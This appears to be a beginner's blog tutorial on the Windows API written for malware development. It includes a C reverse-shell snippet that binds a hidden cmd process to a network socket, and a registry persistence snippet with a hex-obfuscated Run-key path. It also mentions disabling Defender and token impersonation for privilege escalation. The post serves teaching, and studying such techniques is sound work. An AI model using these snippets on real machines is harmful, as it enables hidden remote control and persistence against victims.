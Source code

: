 ```yaml
---
layout: post
title:  "Using and Abusing the Windows API (For Complete Beginners)"
date:   2024-12-26 12:00:00 -0600
categories: cybersecurity maldev networking
---
```


# Importance of the Windows API

The Windows API is central to developing tools and malware for machines running Windows. A basic understanding is crucial to learning cybersecurity and reverse engineering, I will run you through things I wish that I knew before I jumped into the documentation. 📚 

> This is definitly more of an absolute beginner's guide. If you already understand basics like W vs A functions, Handles, Access Tokens, etc., there is probably not much for you here.

# Handles and Objects

Handles appear everywhere in the API, especially when you are developing or reverse engineering malware. Creating processes, injecting into processes, duplicating tokens, changing registry keys, these are all things that require handles.

Handles refer to objects, system *things* that a programmer might want to interact with like tokens, processes, etc.

Instead of rewording it, here is the exact explaination from the [Windows Documentation](https://learn.microsoft.com/en-us/windows/win32/sysinfo/handles-and-objects).

>An object is a data structure that represents a system resource, such as a file, thread, or graphic image. Your application can't directly access object data, nor the system resource that an object represents. Instead, your application must obtain an object handle, which it can use to examine or modify the system resource. Each handle has an entry in an internally maintained table. Those entries contain the addresses of the resources, and the means to identify the resource type.

Handles are of type `HANDLE`.

# Quick Note on Windows functions.

If you take a look at the Windows docs, you will find that almost every function has both an A and W version, like `CreateProcessA` vs `CreateProcessW`. These two functions will do the same thing, however functions labeled with A use ANSI strings for input and output (1 Byte `char` strings), while W functions us Wide Strings for input and output (2 Byte `wchar_t` strings). Both types will be useful to us so keep track of them.

When writing wide strings, preceed them with an uppercase L.

{% highlight c %}
wchar_t message[] = L"Hello World!";
{% endhighlight %}

# Baby's First Reverse Shell

A great point that easily uses the Windows API for fun and profit is always some form of reverse shell. Look at the following example.

{% highlight c %}
SOCKET sockfd; // Lets assume we already have an open socket to communicate on.

STARTUPINFO sInfo;
memset(&sInfo, 0, sizeof sInfo);
sInfo.cb = sizeof sInfo;
sInfo.hStdInput = (HANDLE)sockfd;
sInfo.hStdOutput = (HANDLE)sockfd;
sInfo.hStdError = (HANDLE)sockfd;
sInfo.dwFlags = STARTF_USESTDHANDLES;

PROCESS_INFORMATION pInfo;

CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sInfo, &pInfo);
{% endhighlight %}

Here we do a few things. First, we assume that he already have an open SOCKET from WinSock. We then create a `STARTUPINFO` for us to redirect the shell's input, output, and error handles. Typically, these are the console input buffer and then the console screen buffer. However, the open socket can also be used like a handle to replace those buffers. The created shell process will esentially `send` all of the output and `recv` all of the input. We also create a `PROCESS_INFORMATION` to store information about our created process, including its handle. We then call `CreateProcessA` to open a CMD with our redirected I/O. Fun stuff! 🔥

# Registry Hijinks

As we think of super cool features to add to our super cool malware, we might at some point come into contact with the Windows Registry. Some of you might already be aware that the Registry holds values in a heirarchical tree of keys. These values, depending on the key that they are in, configure useful Windows behavior. Behavior like disabling Windows Defender and placing programs in auto-start. Here is another example using what we already know to place the currently running process into auto-start.

{% highlight c %}

HKEY key;
LSTATUS rv;

TCHAR* dir = (TCHAR*)malloc(MAX_PATH * sizeof(TCHAR));
GetModuleFileNameW(NULL, dir, 100);

wchar_t path[] = { 0x0053, 0x004f, 0x0046, 0x0054, 0x0057, 0x0041, 0x0052, 0x0045, 0x005c, 0x004d, 0x0069, 0x0063, 0x0072, 0x006f, 0x0073, 0x006f, 0x0066, 0x0074, 0x005c, 0x0057, 0x0069, 0x006e, 0x0064, 0x006f, 0x0077, 0x0073, 0x005c, 0x0043, 0x0075, 0x0072, 0x0072, 0x0065, 0x006e, 0x0074, 0x0056, 0x0065, 0x0072, 0x0073, 0x0069, 0x006f, 0x006e, 0x005c, 0x0052, 0x0075, 0x006e, 0x0000 };

rv = RegOpenKeyExW(HKEY_LOCAL_MACHINE, path, 0, KEY_WRITE, &key);

if (rv == ERROR_SUCCESS) {
	if (RegSetValueExW(key, L"Super Cool Stuff", 0, REG_SZ, (LPBYTE)dir, (lstrlen(dir) + 1) * sizeof(TCHAR)) != ERROR_SUCCESS) {
		pRegCloseKey(key);
	}
	else {
		pRegCloseKey(key);
		return;
	}
}

{% endhighlight %}

> TCHAR is the same as wchar_t, they are both 2 bytes.

Here we use several Windows API functions to achieve our end goal. The path variable does not need to the look like this, it is just a stack based string in hex for obfuscation purposes. However, if you were to attempt the function above on a normal user account, nothing would happen. In order for many parts of the Windows API to function we need the proper **tokens**.

# Security and Tokens + 1 Million Other Windows Things

Windows verifies security credentials for a process and thread. More accurately, there exists both a process and thread token that can both be used. There is not really a concrete use for these; many different functions use these tokens in different ways.

For example, the function `CreateProcessA` will create a new process in the context of the calling process. This function also leads into another great point about *impersonation*. If you go and read the documentation for `CreateProcessA`, you will see a note that it will not use the current impersonation token.

# Duplicating Tokens and Impersonation

Some parts of the Windows API become very useful to us as we continue on our maldev journey. A technique you may have heard of for privelege escalation is Named Pipe Impersonation. While I will not fully explain pipes, they are typically used so that two processes can share information between eachother. There exists a function that allows a named pipe server to assume the token of the client process, or in other words, to *impersonate* that client.

Functions like `DuplicateTokenEx` can then be used to create new *primary* tokens for a process. There exist other API methods to set the thread and process tokens, and tokens also have a vast amount of security configuration options as well. If you are more interested, the Windows Docs are the best way to learn about tokens.

There are also other useful Windows functions like `LogonUser`, which returns a token which can be used to impersonate the rights of a user on the machine.

# Key Takeaways

While it would be impossible to show the magnitude of the Windows API in a single article, this is definitely a good start. The best way to learn about about it, in my opinion, is to just build applications that use it! Go read the docs [here](https://learn.microsoft.com/en-us/windows/apps/).